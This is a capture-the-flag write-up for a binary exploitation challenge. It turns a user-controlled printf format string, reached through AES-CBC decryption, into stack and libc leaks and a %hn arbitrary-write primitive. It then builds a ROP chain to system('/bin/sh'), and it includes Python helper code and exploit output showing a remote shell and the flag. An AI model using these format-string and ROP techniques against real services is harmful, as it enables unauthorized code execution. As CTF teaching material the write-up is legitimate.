 # Encrypt-and-decrypt writeup

I don't really do pwn, but organazers dropped 2 android (YUCK), 1 python pickle( EW) and simple rust rev, so there was nothing to do.
It seems that the intended solution used gets() to overflow the buffer, but I solved without it


## Reversing the logic

Application generates a random master key (16 bytes)

Promts user with scanf(%d\n") for either 1 to encrypt or 2 to decrypt.

Encrypt:
 - Generates 16 random bytes for IV
 - fgets 16 chars at max from user
 - trunkates the last 15th and 16th if they are present
 - checks if input is A to Z (high letters only)
 - XORS with IV
 - encrypts with AES CBC
 - prints out iv and result in hex

Decrypt:
 - gets user string, the intended format for it is iv + result
 - checks if the string is 0x40 hex suitable chars
 - Decrypts with AES CBC
 - XORS with IV
 - print via printf(output)

## Attack vectors

Immidiatly I noticied gets, overflowed the buffer and gracefully smashed the stack and segfaulted.

Upon closer inspection I decided to check what is on the stack and to noone's surprise there is a stack canary right after the 
```
mov     rax, fs:28h
```

So i abandoned the idea with gets :-)


Gazing into the scanf("%d\n") in hopes of divine intervention it came to me that the output from decrypt is actually user controlled.

We can encrypt an arbitrary string - ABCDABCDABCDAB, get its iv and result and since the IV is xored with the decrypted result at the end, We xor the IV with the string we want and get printf with controlled format.

This allows us an arbitrary read from the stack past the rsp with %offset$p and arbitrary write with %n shenanigans. I am now realising that this was propbably enought to leak the canary from the stack and use gets as a normal person, but I missed that somehow.

## Analysing what is available to grab from the stack

Looking at the stack and the registers right before the call:
```
RSI 000000000000000F - len of the string
RDX C55E5390500695CB - leak of the last 8 bytes of the last round key
RCX 00007FFFFFFFD5F0 - Juicy stack pointer -> rsp + 0xd0 and 0x88 away from the ret addr
R8  00007FFFF7FA8C88 - libc.so.6:main_arena+8 (IDA annotation, havent looked into it)
R9  0000000000000000

and then the stack
```
Doing printf("%3$p") leaks stack pointer with known offset

looking closer at the stack we see that printf("%49$p") leaks the ret addr to libc.

so theoretically we are set, apart from we cannot write to the stack, %n to the rescue!

## Convoluted write primitives

we find that at %54$p (this is 54th argument to printf) is a pointer to the stack (to the %83$p),  this sounds like a write primitive canditate

so to actually write 2 bytes where we want to we first write the 2 bytes where we want to write (83rd argument), reading that addr from 54th argument
```
dest_short = dest_short & 0xFFFF
s1 = b'%.'
s2 = str(dest_short).encode("ascii")
s3 = b'd%54$hn'
padlen = max(0, 16 - (len(s1) + len(s2) + len(s3)))
```

and then we read from the 83rd argument and write to now destination address the bytes we actually want with
```
d1 = b'%.'
d2 = str(bts_short).encode("ascii")
d3 = b'd%83$hn'
padlen = max(0, 16 - (len(d1) + len(d2) + len(d3)))
```

2 bytes offset is ok, since those arguments are close to each other (the 54th and 83rd).

So from that we can actually make an 8 byte write primitive
just repeating that 4 times and adjusting the values a bit:

```
def write8prim(bts_LONGLONG, dest_short):
    b1 = bts_LONGLONG & 0xFFFF
    b2 = (bts_LONGLONG >> 16) & 0xFFFF
    b3 = (bts_LONGLONG >> 32) & 0xFFFF
    b4 = (bts_LONGLONG >> 48) & 0xFFFF
    write2primEpilog(b1, dest_short)
    write2primEpilog(b2, dest_short + 2)
    write2primEpilog(b3, dest_short + 4)
    if (b4 == 0):
        return
    write2primEpilog(b4, dest_short + 6)
```


## Exploitation
We leaked the pointers, we have an arbitrary write primitive, we are set?

The stack we wanted to have at the end:

```
retaddr - 0x10 | CANARY         |  we just dont touch that
retaddr - 0x8  | 1              | idk what that is
retaddr        | pop rdi;  ret  |  Gadget
retaddr + 0x8  | ptr to /bin/sh | string from libc
retaddr + 0x10 | ret gadget     | (needed for stack alignment)
retaddr + 0x18 | system()       | funciton from libc
```

After quickly getting the shell on my machine I moved on to the server and realised they had a different libc version...

Using the libc_return_to_main_start_call_verylongname offset I narrowed it down to 10 libc versions, which I had to download one by one and find the offset for a pop rdi; ret gadget.

And finally it we got the output:

```
[+] Opening connection to encrypt-and-decrypt.challs.csc.tf on port 1337: Done
exploit str = b'%49$p-----------' === 16
exploit str = b'%3$p------------' === 16
libc: 7d7c2d607d90  base: 7ffec8697080
ReT ADDR =  0x7ffec8697108
[+] RDI
exploit str = b'%.28936d%53$hn--' === 16
exploit str = b'%.33765d%83$hn--' === 16
exploit str = b'%.28938d%53$hn--' === 16
exploit str = b'%.11616d%83$hn--' === 16
exploit str = b'%.28940d%53$hn--' === 16
exploit str = b'%.32124d%83$hn--' === 16
[+] binsh
exploit str = b'%.28944d%53$hn--' === 16
exploit str = b'%.26232d%83$hn--' === 16
exploit str = b'%.28946d%53$hn--' === 16
exploit str = b'%.11643d%83$hn--' === 16
exploit str = b'%.28948d%53$hn--' === 16
exploit str = b'%.32124d%83$hn--' === 16
[+] stack align
exploit str = b'%.28952d%53$hn--' === 16
exploit str = b'%.33766d%83$hn--' === 16
exploit str = b'%.28954d%53$hn--' === 16
exploit str = b'%.11616d%83$hn--' === 16
exploit str = b'%.28956d%53$hn--' === 16
exploit str = b'%.32124d%83$hn--' === 16
[+] system()
exploit str = b'%.28960d%53$hn--' === 16
exploit str = b'%.60784d%83$hn--' === 16
exploit str = b'%.28962d%53$hn--' === 16
exploit str = b'%.11618d%83$hn--' === 16
exploit str = b'%.28964d%53$hn--' === 16
exploit str = b'%.32124d%83$hn--' === 16
Ez
[*] Switching to interactive mode
$ 3
$ 3
$ ls
encrypt-and-decrypt
flag.txt
$ cat flag.txt
CSCTF{EncryP7_y0UR_p4Yl0ad}
$
```

You can notice that here the 53rd arg is used and not 54th, this is once again due to libc version difference

